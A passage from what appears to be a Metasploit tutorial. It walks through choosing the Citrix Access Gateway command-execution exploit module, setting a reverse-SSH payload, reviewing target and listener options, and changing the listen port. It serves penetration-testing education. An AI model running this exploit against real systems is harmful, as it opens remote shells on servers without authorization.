 ```
```

Now you can choose any of the payloads that are listed. They are all compatible with the exploit. Let’s choose a different one rather than the default one. Here, we’ll use the `set` command to set the value of the payload variable to the name of the specific payload:

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > set payload payload/cmd/unix/reverse_ssh
```

```
payload => cmd/unix/reverse_ssh
```

The output shows that the payload is set to (`cmd/unix/reverse_ssh`). Let’s set up the payload. Type in `show options`:

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > show options
```

```
Module options (exploit/unix/webapp/citrix_access_gateway_exec):

   Name     Current Setting  Required  Description
   ‐‐‐‐     ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.43.111   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    443              yes       The target port (TCP)
   SSL      true             yes       Use SSL
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_ssh):

   Name   Current Setting  Required  Description
   ‐‐‐‐   ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   LHOST  192.168.74.128   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   ‐‐  ‐‐‐‐
   0   Automatic
```

The option for the payload shows that the selected payload is now changed to our desired one (`cmd/unix/reverse_ssh`). You can set the payload options with the `set` command as well:

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > set LPORT 5000
LPORT => 5000
```
